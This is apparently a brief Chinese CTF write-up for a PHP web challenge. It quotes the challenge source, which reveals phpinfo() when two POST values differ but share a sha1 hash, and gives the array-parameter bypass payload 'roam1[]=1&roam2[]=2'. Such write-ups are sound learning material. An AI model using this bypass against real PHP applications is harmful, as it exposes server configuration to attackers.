 ![[Pasted image 20230215112137.png|500]]

```
/
```

![[Pasted image 20230215112320.png|400]]

嗯？

![[Pasted image 20230215112339.png|500]]

尝试`POST`

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
        phpinfo();  // collect information from phpinfo!
    }
}
```

简单的数组绕过

```
roam1[]=1&roam2[]=2
```

![[Pasted image 20230215114149.png|700]]

#Web #PHP #HTTP #绕过